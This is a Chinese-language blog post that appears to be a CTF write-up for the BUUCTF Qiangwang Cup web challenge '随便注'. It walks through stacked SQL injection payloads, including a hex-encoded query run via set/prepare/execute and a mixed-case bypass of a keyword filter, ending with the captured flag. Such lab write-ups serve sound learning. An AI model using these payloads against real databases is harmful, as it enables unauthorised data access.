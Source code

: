 ```yaml
---
layout: post
title: "BUUCTF 强网杯（WEB）随便注" 
subtitle: "BUUCTF 强网杯（WEB）随便注"
date: 2019-07-07
author: ppbibo
category: CTF
---
```


[TOC]

## BUUCTF 强网杯（WEB）随便注



## PS：

突然发现群里的大佬们都会玩CTF，而且CTF可以让你产生很多的骚思路，会磨去你的浮躁，别问我为什么；因此决定去学CTF。



## 0x1 堆叠注入

前期正常操作

```mysql
http://web16.buuoj.cn/?inject=1%27


-----回------显------
error 1064 : You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''1''' at line 1
```

```mysql
http://web16.buuoj.cn/?inject=1%27 order by 2#
```

```mysql
http://web16.buuoj.cn/?inject=1%27 union select 1,2#


-----回------显------
return preg_match("/select|update|delete|drop|insert|where|\./i",$inject);
```

## 0x2 堆叠注入

```mysql
http://web16.buuoj.cn/?inject=1%27;show tables;#


# 发现 1919810931114514 和 words 两个表
```

```mysql
http://web16.buuoj.cn/?inject=1%27;set@a=0x73656c656374202a2066726f6d20603139313938313039333131313435313460;prepare execsql from @a;execute execsql;#


-----回------显------
strstr($inject, "set") && strstr($inject, "prepare")
```

```bash
http://web16.buuoj.cn/?inject=1%27;SeT@a=0x73656c656374202a2066726f6d20603139313938313039333131313435313460;prepare execsql from @a;execute execsql;#

# -----回------显------ 
# SeT 大小写绕过，预处理的方法执行sql语句

array(1) {
  [0]=>
  string(38) "flag{3fy145hzdo5ryeho9za94r0qnbkvha0g}"
}

```

![ctf_asfgsin_sql@2x](/static/img/ctf_asfgsin_sql@2x.png)



## 舒服了😌

参考：https://dev.mysql.com/doc/refman/8.0/en/sql-syntax-prepared-statements.html

